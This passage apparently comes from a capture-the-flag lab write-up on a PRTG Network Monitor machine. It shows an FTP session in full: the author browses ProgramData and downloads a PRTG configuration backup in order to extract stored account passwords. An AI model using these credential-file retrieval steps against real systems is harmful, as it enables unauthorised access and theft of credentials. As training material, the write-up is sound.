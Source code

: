 But I get `Your login has failed. Please try again!`

Since we have ftp connection to the entire box, let's search for the configuration file for `PRTG Network Monitor`, I googled about the location of the configuration file in the machine and found this.
><https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/>

It reveals the accounts and password in `C:\ProgramData\Paessler\PRTG Network Monitor\` 

```
ftp> cd Programdata
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-03-19  12:15AM       <DIR>          Licenses
11-20-16  10:36PM       <DIR>          Microsoft
02-03-19  12:18AM       <DIR>          Paessler
02-03-19  08:05AM       <DIR>          regid.1991-06.com.microsoft
07-16-16  09:18AM       <DIR>          SoftwareDistribution
02-03-19  12:15AM       <DIR>          TEMP
11-20-16  10:19PM       <DIR>          USOPrivate
11-20-16  10:19PM       <DIR>          USOShared
02-25-19  10:56PM       <DIR>          VMware
226 Transfer complete.
```
There it is `Paessler`
```
ftp> cd Paessler
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
04-20-20  02:46AM       <DIR>          PRTG Network Monitor
226 Transfer complete.
ftp> cd "PRTG Network Monitor"
250 CWD command successful.
```
We found the backup files of `PRTG`
```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
04-20-20  02:45AM       <DIR>          Configuration Auto-Backups
04-20-20  02:45AM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
04-20-20  02:45AM       <DIR>          Logs (Web Server)
04-20-20  02:45AM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
04-20-20  02:46AM              1637516 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
226 Transfer complete.
ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 3.33 secs (338.2911 kB/s)
```